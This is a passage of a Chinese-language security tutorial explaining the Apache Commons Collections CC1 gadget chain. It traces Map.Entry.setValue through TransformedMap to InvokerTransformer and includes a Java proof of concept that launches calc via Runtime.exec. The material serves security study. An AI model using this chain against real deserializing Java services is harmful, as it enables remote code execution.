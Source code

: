 不知道大家熟悉 `HashMap` 吗，我们来讲一下 `Map.Entry` 。

我们知道 `Map` 是用来存放键值对的，在`HashMap` 中，一对 `k-v` 是存放在 `HashMap$Node` 中的，而 `Node` 又实现了 `Entry` 接口，所以可以粗略地认为，一个`Entry`就相当于一对 `k-v`。

遍历 `Map` 时,可以通过 `entrySet()`方法获取到所有的`k-v`（`Map.Entry` 类 型）。

比如遍历获取`entry`时，代码如下：
```
for (Map.Entry entry: transformedMap.entrySet()) {
    entry.getValue();
}
```
而`setValue`方法就是重新设置`entry`的`k-v`值，这是`HashMap`中已经存在的方法。

`AbstractInputCheckedMapDecorator`类中的`serValue`方法就是重写的，根据之前一层层的`find Usage`找到的链子，我们只需要遍历被`TransformedMap`修饰过的`map`，再使用 `setValue()`传入 `Runtime.getRuntime()`，就会依次调用到
1. CC1_1 #for循环 #entry.setValue(Runtime.getRuntime())
2. AbstractInputCheckedMapDecorator$MapEntry#setValue(Runtime.getRuntime())
3. TransformedMap#checkSetValue(Runtime.getRuntime())
4. InvokerTransformer#transform(Runtime.getRuntime())

现在poc修改如下：
```
package org.vulhub;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class CC1_1 {
    public static void main(String[] args) throws Exception{
        InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
//        exec.transform(Runtime.getRuntime());

        Map map = new HashMap();
        map.put("k", "v");
        Map<Object, Object> transformedMap = TransformedMap.decorate(map, null, exec);
//        Map tansformedMap = TransformedMap.decorate(map, null, exec);
//        tansformedMap.put(1,Runtime.getRuntime());
        //tansformedMap.put(Runtime.getRuntime(),1);

        for (Map.Entry entry: transformedMap.entrySet()) {
            entry.setValue(Runtime.getRuntime());
        }

    }
}
```

<div align=center><img src="https://user-images.githubusercontent.com/84888757/204721126-c7094830-6e0a-4b3c-8341-77852f501896.png" /></div>
